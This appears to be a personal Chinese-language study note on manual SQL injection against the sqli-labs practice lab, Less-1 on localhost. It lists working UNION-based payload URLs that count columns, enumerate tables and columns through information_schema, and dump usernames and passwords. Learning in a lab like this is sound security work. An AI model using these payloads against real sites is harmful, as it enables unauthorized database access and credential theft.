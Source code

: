 ### sqlmap

注释：' or 1=1 -- %20  ' or 1=1 -- +

***步骤***

1. order by 判断字段数

   * 从大到小直到不报错

     ```http://localhost/sqli-labs/Less-1/?id=' order by 4 -- +```

   * 判断字段输出的位置：

     ```![image-20200304124556138](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20200304124556138.png)``

     ![image-20200304124612150](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20200304124612150.png)

2. union 联合查询获取表名

   ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() -- +```

   ***数据库名：table_schema***

   ***字段名：culumn_name***

   ***表名：table_name***

   

   

3. union 字段名

​          ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(column_name),3 from information_schema.columns where table_name='users' -- +```

4. 获取字段值：

   ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(username,0x3a,password),3 from users  -- +```

   



#### bind sql

### sql注入：

1. ***infromation_schema.columns***:
   1. table_schema 数据库名
   2. table_name 表名
   3. column_name 列名
2. ***information_schema.tables***
   1. table_schema 数据库名
   2. table_name 表名
3. information_shcema.schemata
   1. schema_name 数据库名


test
